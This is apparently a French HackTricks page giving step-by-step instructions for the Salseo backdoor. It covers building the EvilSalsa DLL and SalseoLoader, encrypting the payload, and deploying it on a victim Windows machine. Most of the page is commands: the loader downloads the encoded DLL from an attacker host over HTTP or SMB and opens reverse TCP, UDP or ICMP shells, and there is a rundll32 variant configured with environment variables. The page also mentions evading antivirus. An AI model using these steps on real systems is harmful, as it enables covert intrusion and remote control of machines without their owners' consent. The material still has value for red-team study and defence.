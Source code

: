 # Salseo

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## Compilation des binaires

Téléchargez le code source depuis GitHub et compilez **EvilSalsa** et **SalseoLoader**. Vous aurez besoin de **Visual Studio** installé pour compiler le code.

Compilez ces projets pour l'architecture de la machine Windows où vous allez les utiliser (si Windows prend en charge x64, compilez-les pour cette architecture).

Vous pouvez **sélectionner l'architecture** dans Visual Studio dans l'onglet **"Build"** à gauche dans **"Platform Target".**

(\*\*Si vous ne trouvez pas ces options, cliquez sur **"Project Tab"** puis sur **"\<Nom du Projet> Properties"**)

![](<../.gitbook/assets/image (132).png>)

Ensuite, compilez les deux projets (Build -> Build Solution) (À l'intérieur des journaux, le chemin de l'exécutable apparaîtra) :

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Préparer la porte dérobée

Tout d'abord, vous devrez encoder le **EvilSalsa.dll.** Pour ce faire, vous pouvez utiliser le script python **encrypterassembly.py** ou vous pouvez compiler le projet **EncrypterAssembly** :

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, maintenant vous avez tout ce dont vous avez besoin pour exécuter tout le truc Salseo : le **EvilDalsa.dll encodé** et le **binaire de SalseoLoader.**

**Téléchargez le binaire SalseoLoader.exe sur la machine. Ils ne devraient pas être détectés par un quelconque AV...**

## **Exécuter la porte dérobée**

### **Obtenir un shell TCP inversé (téléchargement du dll encodé via HTTP)**

N'oubliez pas de démarrer un nc en tant qu'auditeur de shell inversé et un serveur HTTP pour servir le evilsalsa encodé.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Obtenir un shell inversé UDP (téléchargement d'un dll encodé via SMB)**

N'oubliez pas de démarrer un nc en tant qu'écouteur de shell inversé, et un serveur SMB pour servir le evilsalsa encodé (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Obtenir un shell inverse ICMP (dll encodée déjà présente sur la victime)**

**Cette fois, vous avez besoin d'un outil spécial sur le client pour recevoir le shell inverse. Téléchargez :** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Désactiver les réponses ICMP :**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Exécuter le client :
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### À l'intérieur de la victime, exécutons la chose salseo :
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Compilation de SalseoLoader en tant que DLL exportant la fonction principale

Ouvrez le projet SalseoLoader en utilisant Visual Studio.

### Ajoutez avant la fonction principale: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Installez DllExport pour ce projet

#### **Outils** --> **Gestionnaire de packages NuGet** --> **Gérer les packages NuGet pour la solution...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Recherchez le package DllExport (en utilisant l'onglet Parcourir), et appuyez sur Installer (et acceptez la fenêtre contextuelle)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Dans le dossier de votre projet sont apparus les fichiers: **DllExport.bat** et **DllExport\_Configure.bat**

### **Désinstaller DllExport**

Appuyez sur **Désinstaller** (oui, c'est bizarre mais faites-moi confiance, c'est nécessaire)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Quittez Visual Studio et exécutez DllExport\_configure**

Simplement **quittez** Visual Studio

Ensuite, allez dans votre **dossier SalseoLoader** et **exécutez DllExport\_Configure.bat**

Sélectionnez **x64** (si vous allez l'utiliser dans une boîte x64, c'était mon cas), sélectionnez **System.Runtime.InteropServices** (dans **Espace de noms pour DllExport**) et appuyez sur **Appliquer**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Ouvrez à nouveau le projet avec Visual Studio**

**\[DllExport]** ne devrait plus être marqué comme une erreur

![](<../.gitbook/assets/image (8) (1).png>)

### Compilez la solution

Sélectionnez **Type de sortie = Bibliothèque de classes** (Projet --> Propriétés de SalseoLoader --> Application --> Type de sortie = Bibliothèque de classes)

![](<../.gitbook/assets/image (10) (1).png>)

Sélectionnez **plateforme x64** (Projet --> Propriétés de SalseoLoader --> Générer --> Cible de la plateforme = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Pour **compiler** la solution: Build --> Compiler la solution (À l'intérieur de la console de sortie, le chemin de la nouvelle DLL apparaîtra)

### Testez la DLL générée

Copiez et collez la DLL où vous souhaitez la tester.

Exécutez:
```
rundll32.exe SalseoLoader.dll,main
```
Si aucune erreur n'apparaît, vous avez probablement une DLL fonctionnelle !!

## Obtenir un shell en utilisant la DLL

N'oubliez pas d'utiliser un **serveur HTTP** et de définir un **écouteur nc**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

Le **CMD** (Command Prompt) est une interface en ligne de commande de Windows qui permet aux utilisateurs d'interagir avec le système d'exploitation en utilisant des commandes textuelles.
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
